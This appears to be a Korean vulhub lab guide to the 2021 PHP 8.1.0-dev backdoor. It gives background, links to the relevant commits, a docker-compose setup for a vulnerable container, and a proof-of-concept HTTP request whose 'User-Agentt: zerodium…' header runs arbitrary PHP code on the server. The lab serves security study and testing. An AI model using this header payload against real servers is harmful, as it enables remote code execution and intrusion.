


# PHP 8.1.0-dev User-Agentt 백도어 원격 코드 실행

## 개요

2021년 3월 28일, PHP 8.1.0-dev 버전에 백도어가 심어졌다. 이 백도어는 빠르게 발견되어 제거되었다. 백도어가 존재하는 서버에서는, 공격자가 `User-Agentt` 헤더를 이용하여 임의의 코드를 실행할 수 있다.

## 참고 자료

- [PHP Internals 메일링 리스트](https://news-web.php.net/php.internals/113838)
- [백도어 삽입 커밋](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d)
- [백도어 제거 커밋](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a)

## 취약한 환경 구성 방법

### docker-compose.yml파일 내용

```yaml
version: '3'
services:
  php:
    image: vulhub/php:8.1.0-dev-backdoor
    ports:
      - "8080:80"
```

백도어가 포함된 PHP 8.1-dev 서버를 구성하려면 아래 명령어를 실행한다.

```bash
docker compose up -d
```



환경이 시작되면, 서비스는 [http://localhost:8080](http://localhost:8080/)에서 접근할 수 있다.


## 취약점 재현 방법

다음과 같은 HTTP 요청을 보내면 `var_dump(233*233);` 코드가 실행된다.

```
GET / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
User-Agentt: zerodiumvar_dump(233*233);
Connection: close
```

여기서 핵심은 `User-Agentt`라는 오타가 포함된 헤더를 이용해 코드를 삽입하는 것이다. 해당 백도어가 존재하는 경우, 서버는 이 값을 받아 그대로 실행하게 된다.



233*233의 연산을 실행해서 반환하는 것을 알 수 있다.
